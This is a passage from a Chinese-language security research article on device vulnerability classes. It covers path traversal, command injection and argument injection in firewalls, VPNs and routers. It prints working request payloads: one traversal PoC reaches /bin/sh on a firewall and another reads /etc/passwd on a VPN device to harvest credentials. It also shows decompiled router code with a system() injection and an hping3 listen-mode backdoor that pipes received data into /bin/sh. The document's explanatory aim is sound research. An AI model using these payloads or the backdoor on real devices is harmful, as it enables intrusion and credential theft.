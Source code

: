 该防火墙在全球广泛应用，由于没有对 lang 变量过滤，造成了目录穿越读对漏洞，漏洞利用时还使用了一个技巧，即将 lang 长度扩充至 0x40，将 ".json" 字符串 “挤在”0x40 之外，由于 snprintf 的长度固定就突破了后缀名限制，poc 如下：

```
/lang migadmin/lang =/../../../..//////////////////////////////bin/sh //../../../..//////////////////////////////bin/sh.json


```

*   某 VPN 设备目录穿越漏洞，可获得获取用户登录凭据

```
/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/


```

该 VPN 设备也在全球广泛使用，漏洞原因是使用了 html5 新特性时没有对路径过滤，同时由于该 VPN 设备缓存中可能保留用户凭据和密码明文，就有很大概率拿到凭据绕过认证。

#### 2.1.4 注入

注入漏洞也是大家比较熟悉的，安全研究人员的职业病就是遇到输入的地方都忍不住试一试能不能执行命令，在某些弹幕里居然还有许多 alert 飘过~~~  
有输入的地方就有可能存在注入，一般命令注入和参数注入较为常见。

*   命令注入  
    命令注入一般是没有过滤用户输入内容，直接通过 system 等函数执行运行，只要在输入中加入 “;” 或者 "&&"，随后跟上要执行的命令，就可以完成注入。有些过滤不严格，通过一些技巧绕过也可达到相同效果，方法也和一般 web 渗透基本相同。

```
int __fast sub_9424(int port)
{
    int v1; // r5
    char s; // [sp+0h][bp-114h]
    
    v1 = port;
    memset(&s, 0, 0x100u);
    sprintf(&s, "lighty_ssl -p %s", v1);
    system(&s);
    return 0;
}


```

上面展示了某路由设备命令注入漏洞的部分代码，由于对用户输入 port 值缺少过滤，并直接用 system 执行造成了命令注入，诸如此类简单的注入漏洞通过反汇编脚本辅助可很快发现。

*   参数注入  
    稍微注重安全的厂商都会在设备中对用户输入做字符过滤，有的还十分严格，但往往忽略了应用参数。前面提到，设备应用了很多开源工具，有些开源工具功能强大，参数很多，但是在移植的时候开发者并没有修改代码，这样对开源工具自身功能的运用或者参数的覆盖也可以达到注入的目的。  
    有些设备会内置 ping/tarce/hping3 等功能，hping3 功能强大，我们比较熟悉的是网络联通探测和 Flood 攻击，但是往往会忽略 hping3 还有监听功能，在下面这篇文章中对其功能和技巧概括比较全面。

> https://medium.com/@iphelix/hping-tips-and-tricks-85698751179f

其中提到利用 hping3 的监听功能可以构造 backdoor，在设备端执行

```
hping3 -I eth1 -9 secret | /bin/sh


```

